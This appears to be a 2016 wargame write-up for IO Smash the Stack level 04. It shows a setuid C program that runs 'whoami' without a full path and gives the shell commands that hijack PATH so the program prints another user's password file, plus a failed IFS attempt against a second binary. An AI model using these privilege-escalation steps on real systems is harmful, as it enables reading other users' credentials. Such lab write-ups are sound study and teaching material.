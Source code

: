+++
title = "IO Smash the stack level 04"
date = "2016-01-26T10:48:00-02:00"
publishdate = "2016-01-26"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-04"
project_url = "https://greyhat.dk/io-smashthestack-level-04"
type = "post"
+++

## Level04

```sh
level4@io:/levels$ ls -latr level04*
-r-sr-x--- 1 level5 level4 5159 Dec 18  2013 level04
-r-------- 1 level4 level4  245 Dec 18  2013 level04.c
-r-sr-x--- 1 level5 level4 5105 Sep 24  2014 level04_alt
-r-------- 1 level4 level4  120 Jan 27  2015 level04_alt.c
```

level4@io:/levels$ cat level04.c
```c
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```

So it runs whoami without full path .. lets see if we can make it run our version of whoami

```sh
level4@io:~$ mkdir /tmp/desdic
level4@io:~$ cd /tmp/desdic
level4@io:/tmp/desdic$ echo "cat /home/level5/.pass" > whoami
level4@io:/tmp/desdic$ chmod 777 whoami
level4@io:/tmp/desdic$ ./whoami
cat: /home/level5/.pass: Permission denied
level4@io:/tmp/desdic$ export PATH=.:$PATH
level4@io:/tmp/desdic$ which whoami
./whoami
level4@io:/tmp/desdic$ /levels/level04
Welcome XXXXXXXXXXXXXXXX
```


## Level04 alt

level4@io:/tmp/desdic$ cat /levels/level04_alt.c
```c
//written by bla
#include <stdlib.h>
int main(){
	setresuid(geteuid(), geteuid(), geteuid());
	system("/usr/bin/id");
}
```

Oki this time we have full path but using the system call can be dangerous. It should all about adding / to IFS but I can't seem to get it working

I have tried to

```sh
export IFS='/'
export PATH=.:$PATH
echo "cat /home/level5/.pass" > usr
chmod 777 usr
/levels/level04_alt
```

But even though the PATH shows spaces and not / it does not seem to work on system so I must be missing something .. returning for this on a rainy day :) or if you have a hint mail me


